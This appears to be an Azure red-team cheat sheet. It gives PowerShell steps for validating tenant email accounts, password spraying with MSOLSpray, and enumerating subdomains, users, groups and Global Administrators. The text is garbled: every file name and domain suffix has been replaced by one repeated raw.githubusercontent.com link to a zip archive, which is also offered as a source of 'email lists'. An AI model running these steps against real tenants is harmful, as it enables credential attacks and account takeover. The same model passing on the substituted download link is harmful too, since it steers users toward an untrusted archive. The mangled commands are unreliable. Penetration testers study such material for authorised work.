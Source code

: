 * Validate email 
    ```powershell
    PS> C:\Python27\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip C:\Tools\o365creeper\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -f C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -o C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    admin@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip   - VALID
    root@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip    - INVALID
    test@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip    - VALID
    contact@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip - INVALID
    ```
* Extract email lists with a valid credentials : https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip

#### Password spraying

```powershell
PS> . C:\Tools\MSOLSpray\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS> Invoke-MSOLSpray -UserList C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Password <PASSWORD> -Verbose
```

### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip Email
<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip Microsoft Hosted Domain
```

### Enumerate tenant with Azure AD Powershell

```powershell
Import-Module C:\Tools\AzureAD\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
Import-Module C:\Tools\AzureADPreview\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS> $creds = New-Object https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip("test@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip", $passwd)
PS Az> Connect-AzureAD -Credential $creds

PS AzureAD> Get-AzureADUser -All $true
PS AzureAD> Get-AzureADUser -All $true | select UserPrincipalName
PS AzureAD> Get-AzureADGroup -All $true
PS AzureAD> Get-AzureADDevice
PS AzureAD> Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
PS AzureADPreview> Get-AzureADMSRoleDefinition | ?{$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -eq $False} | select DisplayName
```
